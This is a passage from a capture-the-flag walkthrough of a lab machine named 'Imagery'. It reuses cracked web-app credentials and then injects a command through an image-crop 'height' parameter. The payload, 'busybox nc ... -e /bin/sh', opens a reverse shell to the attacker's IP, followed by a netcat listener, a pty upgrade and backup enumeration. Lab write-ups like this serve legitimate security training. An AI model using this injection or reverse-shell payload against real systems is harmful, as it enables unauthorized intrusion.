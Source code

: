 We got the password:

<aside>
💡

iambatman 

</aside>

After cracking, use the credentials on the webapp.

<aside>
💡

testuser@imagery.htb

iambatman

</aside>

## Webshell – Command Injection in image transform

As a normal user (testuser) upload an image, then go to library and click on transform image and crop, intercept the transform/crop request in Burp, and modify the `height` parameter:

```json
"height":"100; busybox nc 10.10.14.100 4444 -e /bin/sh; echo"

```

Start a listener:

```bash
nc -lvnp 4444

```

Trigger the transform and obtain a web user shell.

To get interactive shell

<aside>
💡

python3 -c 'import pty; pty.spawn("/bin/bash")'

</aside>

## Pivot to mark – backup bruteforce

From the web shell enumerate backups:

```bash
ls -la /var/backup

```

Find:

```
web_20250806_120723.zip.aes

```
